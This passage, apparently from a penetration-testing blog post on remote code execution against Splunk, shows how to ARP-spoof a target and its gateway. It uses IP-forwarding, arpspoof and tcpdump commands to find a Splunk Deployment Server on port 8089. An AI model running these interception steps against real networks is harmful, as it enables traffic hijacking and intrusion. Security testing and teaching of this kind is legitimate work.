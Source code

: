 First enable port forwarding on the attacking host

    sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sed -i 's/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/' /etc/sysctl.conf
    sysctl -p

![](../assets/img/splunk-rce/2019-10-03-01-01-39.png)


Open two terminals and execute `arpspoof` to tell the target that we are the default gateway and the gateway that we are the target. This way, all traffic will be forwarded.
    
    arpspoof -i eth0 -t 192.168.0.134 192.168.0.1
    arpspoof -i eth0 -t 192.168.0.1 192.168.0.134

Instantly, you should see ARP replies coming in.

![](../assets/img/splunk-rce/2019-10-03-00-46-11.png)

![](../assets/img/splunk-rce/2019-10-03-00-46-22.png)

## Finding the real Deployment Server

If you are lucky, the DS is in the same network as your attacker host and victim. If it is you can just ARP spoof that server directly. However, if the DS is in a different network, you need to find out where the DS is.

Note: when I did this I had both SSH and RDP going on to the boxes, so I filtered those and ARP requests, and focus on traffic to and from my target. We know that UFs communicate outbound on `8089` so we can filter on that.

    tcpdump -i eth0 port not 22 and port not 3389 and not ARP and host 192.168.0.134 and port 8089

![](../assets/img/splunk-rce/2019-10-03-00-55-41.png)
